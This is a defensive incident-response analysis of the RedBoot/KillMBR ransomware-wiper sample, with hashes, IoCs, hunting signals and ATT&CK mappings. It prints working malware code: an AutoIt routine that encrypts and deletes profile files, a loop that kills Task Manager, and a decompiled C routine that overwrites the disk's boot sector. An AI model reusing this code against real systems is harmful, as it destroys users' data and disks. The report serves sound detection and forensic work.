



# RedBoot (KillMBR.gff): AutoIt AES locker plus an MBR that zeros the partition table

Language: English | French version: [README.md](README.md)

**Sample:** `sample.bin` (copy of `new/Trojan.Win32.KillMBR.gff-1001a8c7…`)  
**Family:** RedBoot / Kaspersky `Trojan.Win32.KillMBR.gff` / Trend Micro `RANSOM_REDBOOT.A`  
**Note / magic:** red boot screen, `redboot@memeware.net`, `*.locked` files  
**Sources:** UPX PE + AutoIt EA06 script + Hex-Rays of `overwrite.exe` (`artefacts/ida_export/mbrover_main.c`)

This 2017 build poses as ransomware: it AES-256-encrypts a handful of user folders (Windows CryptoAPI) then reboots into a custom MBR. A SOC mainly sees `.locked`, a `%USERPROFILE%\<8 digits>` directory, and disk 0 whose sector 0 has **no partition table**. The file key is a function of the Windows username. The MBR stub has **no** unlock prompt.

> **Defensive / IR** analysis. The locker was not executed on the host. `overwrite.exe` did not write a disk. `boot.bin` was assembled offline with the **extracted** NASM 2.07 (assembler, not the MBR payload).

---

## TL;DR

- **RedBoot, AutoIt 3.3.14.2 packed with UPX**, PE32 GUI 1,246,725 bytes, TimeDateStamp **2017-09-17**, `#AutoIt3Wrapper_Outfile=RedBoot.exe`.
- **Author gate:** if `@UserName == "Kitty"` the script `Exit`s (author box `C:\Users\Kitty\Desktop\…`).
- **Disk impact:** NASM builds `boot.asm` → 512 bytes; `overwrite.exe` writes the whole file to `\\.\PhysicalDrive0`. Partition table at `0x1BE` = **64 zeros**. Red `int 10h` screen + `jmp $`.
- **File impact:** CAPI AES-256, `.locked` suffix, Desktop / Documents / Downloads / Pictures / Videos / Music only, files **< 50 MiB**.
- **Host-visible:** `protect.exe` loops killing `Taskmgr.exe` and `ProcessHacker.exe`; email **`redboot@memeware.net`**; ID = SHA1(SHA1(username)).
- **No wallpaper**, no desktop note, no network C2, no VSS. `Shutdown($SD_REBOOT)` after the walk.
- **No author private key.** File crypto is deterministic (username). The custom MBR offers **no** unlock path.

---

## 0. Code synthesis

Stacked format (observation, then confirmation underneath).

- **PE32 UPX** 1,246,725 bytes, stub EP `0x1B2AE0`, unpack → 1,723,397 bytes, AutoIt product **3.3.14.2**
  → [pe_packed.txt](artefacts/pe_packed.txt) · [pe_info.txt](artefacts/pe_info.txt)

- **AutoIt EA06 script** resource `RT_RCDATA` / `SCRIPT` (~866 KiB, entropy 8.0)
  → [RedBoot.au3](artefacts/payloads/RedBoot.au3) · short logic [RedBoot_payload.au3](artefacts/payloads/RedBoot_payload.au3)

- **Author gate** `Kitty`
  → `If @UserName == "Kitty" Then Exit`

- **Drops** under `%USERPROFILE%\<Random 8 digits>\`: `overwrite.exe`, `assembler.exe`, `boot.asm`, `protect.exe`, `main.exe`
  → [drops.txt](artefacts/drops.txt)

- **MBR** text `redboot@memeware.net`, magic `55 AA`, null partition table
  → [boot.asm](artefacts/payloads/boot.asm) · [boot.bin](artefacts/payloads/boot.bin) · [boot_layout.txt](artefacts/boot_layout.txt)

- **MBR writer** MinGW/TDM-GCC 4.9.2, `main` @ `0x401500`
  → [mbrover_main.c](artefacts/ida_export/mbrover_main.c)

- **Crypto** AES-256 / `CryptDeriveKey` / `.locked` / 50 MiB cap
  → [crypto_kdf.txt](artefacts/crypto_kdf.txt)

- **Watchdog** AutoIt `protect.exe`
  → [protect.au3](artefacts/payloads/protect.au3)

- **No wallpaper** (`SystemParametersInfo` absent from the business script)

---

## 0bis. Attack chain and diagrams

Every step is **read from the script / Hex-Rays**. None were replayed live (x32dbg `NO_TARGET`, no Any.RUN URL).

1. **Entry.** UPX stub then AutoIt interpreter, `requireAdministrator` manifest + `#RequireAdmin`.
2. **Gate.** `@UserName == "Kitty"` → immediate exit.
3. **Prep.** `%USERPROFILE%\<8 digits>` folder; `ENCKEY = SHA1(@UserName)`; `IDKEY = SHA1(ENCKEY)`.
4. **Drops.** `FileInstall` of four blobs; `Run(protect.exe)`; `FileMove` of the launcher to `main.exe`.
5. **Patch MBR source.** Replace 40 `x` in `boot.asm` with `IDKEY`.
6. **Assemble.** `assembler.exe -f bin boot.asm -o boot.bin` (NASM 2.07), then delete `boot.asm` and `assembler.exe`.
7. **MBR wipe.** `overwrite.exe boot.bin` → `CreateFileA(\\.\PhysicalDrive0, GENERIC_ALL)` + `WriteFile` of 512 bytes.
8. **Encrypt.** Six profile folders, files `< 50 MiB`, AES-256, `.locked`, `FileDelete` of the original.
9. **Reboot.** `Shutdown($SD_REBOOT)`. After POST: red screen, note, hang `jmp $`.

### S1 — Global flow



### S2 — Sector 0



### S3 — File



---

## 0ter. Hunting / what the SOC collects

| Signal | Where to look |
|--------|----------------|
| `.locked` extension (original name kept) | File EDR, shares |
| `%USERPROFILE%\########` plus `overwrite.exe` / `protect.exe` / `main.exe` / `boot.bin` | Disk, Prefetch, Amcache |
| `CreateFile` `\\.\PhysicalDrive0` GENERIC_ALL | Sysmon 12/13/17, kernel callbacks |
| `protect.exe` plus kill of `Taskmgr.exe` / `ProcessHacker.exe` | EDR process terminate |
| `nasm -f bin … boot.asm -o boot.bin` | cmdline |
| `redboot@memeware.net` in sector 0 | disk forensics, MBR YARA |
| AutoIt `RedBoot.exe` / VERSION 3.3.14.2 / UPX `UPX0`/`UPX1` | static / VT |
| Username `Kitty` (author box, **not** a victim) | TI context only |

---

## 1. PE / entry point

### What is this for?

The delivered file is a **compiled AutoIt** binary compressed with UPX. The user launches a normal `.exe`; Windows elevates via the manifest; AutoIt runs the script stored in the `SCRIPT` resource. The actual malware is ~40 lines; the rest of the decompiled `.au3` is `Array.au3` / `File.au3` / `Crypt.au3`.

### Packed launcher

| Field | Value |
|-------|--------|
| SHA256 | `1001a8c7f33185217e6e1bdbb8dba9780d475da944684fb4bf1fc04809525887` |
| SHA1 | `d47f6f7e553c4bc44a2fe88c2054de901390b2d7` |
| MD5 | `e0340f456f76993fc047bc715dfdae6a` |
| Size | 1,246,725 (Trend Micro `RANSOM_REDBOOT.A` cites **the same** size) |
| Machine | PE32 |
| TimeDateStamp | `0x59BDF65A` = **2017-09-17 04:13:14 UTC** |
| Packer | UPX (`UPX!` @ `0x3E0`) |
| Manifest | `requestedExecutionLevel requireAdministrator` |

### Unpacked

| Field | Value |
|-------|--------|
| SHA256 | `f2d0720af6402e3857ccabde8204a6f231c120d76d39750c09dab3acbe145fee` |
| Size | 1,723,397 |
| EP RVA | `0x27F4A` (AutoIt stub) |
| VERSION | FileVersion `1.0.0.0`, ProductVersion **`3.3.14.2`**, Comment/Description `None` |
| Critical resource | Type 10 (`RT_RCDATA`) name `SCRIPT`, 866,284 bytes, entropy 8.000 |

Launcher imports: a large AutoIt kernel32 set including `CreateFileW`, `WriteFile`, `DeviceIoControl`, `SetSystemPowerState`, plus `InitiateSystemShutdownExW`, `ExitWindowsEx`, `ShellExecuteW`. The disk wipe **does not** use those imports: it is delegated to `overwrite.exe`.

---

## 2. Init / gate / drops

### 2.1 What is this for?

Before any damage, the script recognises itself: on the author’s PC (`Kitty`) it does nothing. Otherwise it creates a random folder under the profile, computes two SHA1 digests, and drops its tools. Kit layout: a legitimate assembler, a C++ writer, an AutoIt killer, an MBR source.

### 2.2 Business code (excerpt)

```autoit
If @UserName == "Kitty" Then
    Exit
EndIf
$RNAME = Random(10000000, 99999999, 1)
$WD = @HomeDrive & @HomePath & "\" & $RNAME
DirCreate($WD)
$ENCKEY = StringReplace(_CRYPT_HASHDATA(@UserName, $CALG_SHA1), "0x", "")
$IDKEY  = StringReplace(_CRYPT_HASHDATA($ENCKEY, $CALG_SHA1), "0x", "")
FileInstall("C:\Users\Kitty\Desktop\shared2\mbrover.exe", $WD & "\overwrite.exe")
FileInstall("C:\Users\Kitty\Desktop\assembler.exe", $WD & "\assembler.exe")
FileInstall("C:\Users\Kitty\Desktop\mbrover\mbr.asm", $WD & "\boot.asm")
FileInstall("C:\Users\Kitty\Desktop\Myriad\Concept Testing\TMkill.exe", $WD & "\protect.exe")
Run("""" & $WD & "\protect.exe""")
FileMove(@ScriptFullPath, $WD & "\main.exe")
```

Compile-time paths (`Kitty\Desktop\shared2`, `mbrover`, `Myriad\Concept Testing`) are author artefacts, not victim paths.

### 2.3 assembler.exe

NASM **2.07** built 19 July 2009 (`The Netwide Assembler 2.07`). Malware usage: `nasm -f bin boot.asm -o boot.bin`. This binary is not an encryptor.

---

## 3. Side effects

### 3.1 Wallpaper

None. No business BMP/JPG, no `SystemParametersInfo` in the RedBoot script. Type 3 / 14 icons belong to the AutoIt stub.

### 3.2 Desktop note

No `README.txt`. The ransom text exists **only** in the MBR, so only after reboot (or a sector-0 dump).

### 3.3 protect.exe

Second AutoIt (`#RequireAdmin`, same stub family):

```autoit
While True
    If ProcessExists("Taskmgr.exe") Then
        ProcessClose("Taskmgr.exe")
    EndIf
    If ProcessExists("ProcessHacker.exe") Then
        ProcessClose("ProcessHacker.exe")
    EndIf
WEnd
```

Started with `Run` (not `RunWait`): it stays up during assemble / wipe / encrypt.

---

## 4. Elevation / UAC

- Embedded manifest: `requireAdministrator`.
- AutoIt `#RequireAdmin` (relaunch elevated if needed).
- `overwrite.exe` opens `\\.\PhysicalDrive0` with `GENERIC_ALL` (`0x10000000`): without admin, `CreateFileA` fails and the wipe does not happen (the script still continues to encrypt / reboot).

---

## 5. Anti-recovery

No `vssadmin`, no `bcdedit`, no log wipe. Visible anti-analysis:

| Mechanism | Detail |
|-----------|--------|
| Kill Task Manager / Process Hacker | `protect.exe` loop |
| Immediate reboot | no Windows session left to sort `.locked` files |
| MBR + partition table | system volume no longer described to BIOS/UEFI CSM |
| `#NoTrayIcon` | no AutoIt tray icon |

---

## 6. Walk / exclusions / categories

### What is this for?

This is **not** a full-disk walk. Six profile folders, recursive, every extension, **except** files ≥ 50 MiB. A large ISO / video on the Desktop is skipped. A 2 MiB `.docx` becomes `.docx.locked` and the original is deleted.

Folders (AutoIt paths):

- `@HomeDrive & @HomePath & "\Desktop"`
- `\Documents`
- `\Downloads`
- `\Pictures`
- `\Videos`
- `\Music`

No extension list. No `Windows` skip: those folders simply are not walked. No `C:\` walk and no shares.

---

## 7. Crypto

### 7.1 What is this for?

Each targeted file is encrypted with the Windows API (`CryptEncrypt`), algorithm **AES-256**. The “key” AutoIt passes in is the hex SHA1 of the username. CryptoAPI derives an AES key via `CryptDeriveKey` (internal **MD5** hash by default in `Crypt.au3`). There is no RSA wrap, no documented per-file nonce, no footer magic. An IR team that knows the username can **in principle** replay the KDF; that does not repair sector 0.

### 7.2 KDF and victim ID

```
ENCKEY = SHA1(@UserName)           → 40 hex (AutoIt "0x" prefix stripped)
IDKEY  = SHA1(ENCKEY_ascii)        → 40 hex pasted into the MBR
```

`IDKEY` is **not** the AES key; it is an identifier shown for the email. The file key is `ENCKEY`.

### 7.3 Size policy / rename

| Rule | Value |
|-------|--------|
| Primitive | `CALG_AES_256` (26128) |
| Threshold | `< 52428800` bytes (50 MiB), else skip |
| Chunk | 1 MiB (`FileRead` 1024*1024), last block `Final=True` |
| Rename | `original.ext` → `original.ext.locked` |
| Original | `FileDelete` after a successful API call |

### 7.4 Code

```autoit
Func ENCRYPTDIRECTORY($DIR, $KEY)
    If FileExists($DIR) Then
        $A_FILES = _FILELISTTOARRAYREC($DIR, "*", $FLTAR_FILES, $FLTAR_RECUR, $FLTAR_NOSORT)
        For $I = 1 To $A_FILES[0]
            If FileGetSize($DIR & "\" & $A_FILES[$I]) < 52428800 Then
                _CRYPT_ENCRYPTFILE($DIR & "\" & $A_FILES[$I], _
                    $DIR & "\" & $A_FILES[$I] & ".locked", $KEY, $CALG_AES_256)
                FileDelete($DIR & "\" & $A_FILES[$I])
            EndIf
        Next
    EndIf
EndFunc
```

**No author private key in the sample.** IR takeaway: collect the Windows username and a sector-0 dump (IDKEY); do not pay `memeware.net`.

---

## 8. Ransom note (MBR)

### What is this for?

At boot the BIOS loads 512 bytes at `0x7C00`. The stub clears the screen red (`AH=07`, `BH=0x4F`), prints an ASCII message, then loops. With an empty partition table the firmware no longer finds Windows. Email is the only channel.

Text (`it's` typo preserved):

```
This computer and all of it's files have been locked! Send an email to
redboot@memeware.net containing your ID key for instructions on how to
unlock them. Your ID key is <40 hex>
```

File: [mbr_note.txt](artefacts/mbr_note.txt)

Assembled layout (placeholder `x` × 40): 512 bytes, trailing `55 AA`, **64 zeros** at `0x1BE`. That is the classic MBR partition table. 2017 write-ups (BleepingComputer / SecurityWeek) described this wipe; the sample confirms it byte for byte.

`overwrite.exe` has **no** size check: it writes `GetFileSize(boot.bin)` bytes from LBA 0. Here that is 512. A larger `boot.bin` would smash later sectors.

Cleaned Hex-Rays (`_main` @ `0x401500`):

```c
int main(int argc, char **argv)
{
    HANDLE disk = CreateFileA("\\\\.\\PhysicalDrive0",
        0x10000000 /* GENERIC_ALL */, 3 /* READ|WRITE share */,
        NULL, 3 /* OPEN_EXISTING */, 0, NULL);
    HANDLE bin = CreateFileA(argv[1], 0x80000000 /* GENERIC_READ */,
        0, NULL, 3, 0, NULL);
    DWORD sz = GetFileSize(bin, NULL);
    void *buf = operator new[](sz);
    DWORD n = 0;
    ReadFile(bin, buf, sz, &n, NULL);
    WriteFile(disk, buf, sz, &n, NULL);
    CloseHandle(bin);
    CloseHandle(disk);
    _getch();   /* waits for a key — AutoIt RunWait blocks on it */
    return 0;
}
```

Compiler string: `GCC: (tdm64-1) 4.9.2`. Large libstdc++ / winpthreads runtime: the business logic is this `main`.

---

## 9. Timeline

| When | Fact |
|-------|------|
| 2009-07-19 | NASM 2.07 (blob `assembler.exe`) |
| 2017-09-16 18:11 UTC | TimeDateStamp `overwrite.exe` (`mbrover.exe`) |
| 2017-09-17 02:57 UTC | TimeDateStamp `protect.exe` / TMkill |
| 2017-09-17 04:13 UTC | TimeDateStamp AutoIt launcher |
| 2017-09-23 | First public write-ups (BleepingComputer; Trend Micro size match) |
| 2026-10-04 | Static analysis in this folder (no host exec) |

**Runtime** order in the script: protect → patch asm → nasm → MBR wipe → encrypt 6 folders → reboot. The wipe **precedes** encryption: an interrupt in the middle already leaves sector 0 destroyed.

---

## 10. IoCs

### Highest-value

| Signal | Value |
|--------|--------|
| MBR email | `redboot@memeware.net` |
| Extension | `.locked` |
| Device | `\\.\PhysicalDrive0` |
| Drops | `overwrite.exe`, `protect.exe`, `boot.bin`, `main.exe` |
| Author gate | username `Kitty` |
| Compile outfile | `RedBoot.exe` |
| MBR magic + PT | `55 AA` and 64 zeros @ `0x1BE` |

### Exhaustive

| Type | Value |
|------|--------|
| SHA256 packed | `1001a8c7f33185217e6e1bdbb8dba9780d475da944684fb4bf1fc04809525887` |
| MD5 packed | `e0340f456f76993fc047bc715dfdae6a` |
| SHA1 packed | `d47f6f7e553c4bc44a2fe88c2054de901390b2d7` |
| SHA256 unpacked | `f2d0720af6402e3857ccabde8204a6f231c120d76d39750c09dab3acbe145fee` |
| SHA256 overwrite.exe | `f2bc5886b0f189976a367a69da8745bf66842f9bba89f8d208790db3dad0c7d2` |
| SHA256 protect.exe | `e61a8382f7293e40cb993ddcbcaa53a4e5f07a3d6b6a1bfe5377a1a74a8dcac6` |
| SHA256 assembler.exe (NASM) | `2a5305369edb9c2d7354b2f210e91129e4b8c546b0adf883951ea7bf7ee0f2b2` |
| Mutex | none in the business script |
| Note / wallpaper | MBR only / no wallpaper |
| Live path | `%HOMEDRIVE%%HOMEPATH%\<8 digits>\` |
| NASM CLI | `-f bin "<WD>\boot.asm" -o "<WD>\boot.bin"` |
| Process kill | `Taskmgr.exe`, `ProcessHacker.exe` |
| Detections | Kaspersky `Trojan.Win32.KillMBR.gff`, Trend `RANSOM_REDBOOT.A` |

Full table: [hashes.txt](artefacts/hashes.txt).

---

## 11. ATT&CK

| ID | Technique | Observed behaviour |
|----|-----------|----------------------|
| T1027.002 | Software Packing | UPX `UPX0`/`UPX1`, magic `UPX!` |
| T1059 | Command and Scripting Interpreter | AutoIt 3.3.14.2, `SCRIPT` EA06 resource |
| T1548.002 | Bypass User Account Control | `requireAdministrator` manifest + `#RequireAdmin` |
| T1562.001 | Impair Defenses | `protect.exe` kills Task Manager and Process Hacker |
| T1070.004 | File Deletion | `FileDelete` originals after `.locked`; delete `boot.asm` / `assembler.exe` |
| T1486 | Data Encrypted for Impact | CAPI AES-256, `.locked` suffix, 6 profile folders, 50 MiB cap |
| T1561.002 | Disk Structure Wipe | `WriteFile` 512 B to `PhysicalDrive0`, PT @ `0x1BE` zeroed |
| T1529 | System Shutdown/Reboot | `Shutdown($SD_REBOOT)` |
| T1036 | Masquerading | VERSION `None` / `1.0.0.0`, drops `overwrite`/`protect`/`main` |

---

## 12. Captures / live

- x32dbg MCP: **`NO_TARGET`** (sample not loaded).
- Any.RUN: **no URL provided**.
- `boot.bin` rebuilt statically (extracted NASM + placeholder `boot.asm`). A victim run would have a different IDKEY and therefore a different `boot.bin` hash.

---

## 13. Produced files

Short labels (clickable); paths under `artefacts/` and the sample folder root.

| Group | File | Role |
|--------|---------|------|
| Report | [README.md](README.md) | FR |
| Report | [README_EN.md](README_EN.md) | EN |
| Sample | [sample.bin](sample.bin) | UPX launcher |
| Sample | [sample_unpacked.exe](sample_unpacked.exe) | UPX -d |
| Script | [RedBoot_payload.au3](artefacts/payloads/RedBoot_payload.au3) | Business logic |
| Script | [RedBoot.au3](artefacts/payloads/RedBoot.au3) | Full decompile + includes |
| Script | [protect.au3](artefacts/payloads/protect.au3) | Taskmgr killer |
| Drop | [overwrite.exe](artefacts/payloads/overwrite.exe) | MBR writer |
| Drop | [protect.exe](artefacts/payloads/protect.exe) | AutoIt watchdog |
| Drop | [assembler.exe](artefacts/payloads/assembler.exe) | NASM 2.07 |
| MBR | [boot.asm](artefacts/payloads/boot.asm) | 16-bit source |
| MBR | [boot.bin](artefacts/payloads/boot.bin) | 512 B placeholder |
| MBR | [boot_layout.txt](artefacts/boot_layout.txt) | Sector 0 offsets |
| MBR | [mbr_note.txt](artefacts/mbr_note.txt) | Ransom text |
| IDA | [mbrover_main.c](artefacts/ida_export/mbrover_main.c) | Hex-Rays `main` |
| Crypto | [crypto_kdf.txt](artefacts/crypto_kdf.txt) | SHA1 / AES-256 |
| PE | [pe_packed.txt](artefacts/pe_packed.txt) | UPX |
| PE | [pe_info.txt](artefacts/pe_info.txt) | Unpacked |
| PE | [imports.txt](artefacts/imports.txt) | Launcher IAT |
| PE | [embedded_manifest.xml](artefacts/embedded_manifest.xml) | requireAdmin |
| Lists | [hashes.txt](artefacts/hashes.txt) | Hashes |
| Lists | [drops.txt](artefacts/drops.txt) | Live names |
| Script | [extract_redboot.py](artefacts/extract_redboot.py) | AutoIt re-extract |

---

## 14. References + unverified

- Lawrence Abrams, *Ransomware or Wiper? RedBoot Encrypts Files but also Modifies Partition Table*, BleepingComputer, 2017-09-23.
- SecurityWeek, *RedBoot Ransomware Modifies Master Boot Record*, 2017-09-25.
- Trend Micro, `RANSOM_REDBOOT.A` (size 1,246,725 — this sample).
- Kaspersky: `Trojan.Win32.KillMBR.gff`.

**Unverified / out of scope**

- Host execution of the locker, live walk, real reboot.
- Any.RUN / third-party sandbox (no URL).
- x32dbg / x64dbg on this PE.
- Decrypting a victim `.locked` file (KDF documented, no decryptor shipped).
- Live `boot.bin` with a real IDKEY (artefact uses placeholder `x`).
- Exact `_getch()` behaviour under `RunWait` without a console (may block `overwrite.exe` until a keypress).
- Exact `@UserName` byte encoding in `CryptHashData` (AutoIt 3.3 ANSI vs UTF-16) on every locale.
- Campaigns, volume, geography: **not invented**.
